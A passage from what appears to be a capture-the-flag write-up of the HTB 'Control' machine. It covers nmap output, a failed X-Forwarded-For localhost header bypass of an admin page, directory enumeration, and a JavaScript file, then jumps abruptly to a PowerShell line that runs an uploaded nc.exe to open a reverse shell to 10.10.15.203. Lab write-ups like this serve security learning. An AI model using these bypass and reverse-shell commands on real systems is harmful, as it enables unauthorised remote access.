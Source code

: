 ```aaa
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 371.52 seconds
```

The IIS web server has a neat little application running that looks like this:

![img](/images/writeup-control/2.png)

The only apparently interesting feature here is the Admin button, upon clicking it we are given an error stating we must go through a proxy in order to access the page, and that this proxy is supposed to add a special header to our HTTP requests:

![img](/images/writeup-control/3.png)

Here are a few headers commonly added by HTTP proxies when a client goes through one:

```http
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

With a 127.0.0.1 address in, these headers actually become possible bypasses. A proxy will replace the 127.0.0.1 address with that of the client making the request to the application, which will check if the supplied IP is authorized to access the desired page.

Using 127.0.0.1 as the value of all these headers is a typical bypass based on the assumption that the server trusts requests coming from itself, thus thinking the requests come from a host that is authorized to access the application of interest.

Unfortunately for us, adding these headers manually with Burp and making a request to the Admin page returns the same exact error as before, meaning we are missing something. Perhaps localhost is not in the app’s access control whitelist. We’ll be back here soon.

Running Dirbuster allows to find a bunch of files and folders that are not apparent from the main site accessible to unauthenticated users, mainly the uploads folder and a bunch of PHP pages that have to do with product management of some sort (don’t mind the n2s.php page, it’s a web shell dropped by some other user):

![img](/images/writeup-control/4.png)

Other PHP pages are referenced by the /assets/js/functions.js script:

```js
function deleteProduct(id) {
	document.getElementById("productId").value = id;
	document.forms["viewProducts"].action = "delete_product.php";
	document.forms["viewProducts"].submit();
}
function updateProduct(id) {
	document.getElementById("productId").value = id;
	document.forms["viewProducts"].action = "update_product.php";
	document.forms["viewProducts"].submit();
}
function viewProduct(id) {
	document.getElementById("productId").value = id;
	document.forms["viewProducts"].action = "view_product.php";
	document.forms["viewProducts"].submit();
}
function deleteCategory(id) {
	document.getElementById("categoryId").value = id;
	document.forms["categoryOptions"].action = "delete_category.php";
	document.forms["categoryOptions"].submit();
}
```

[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }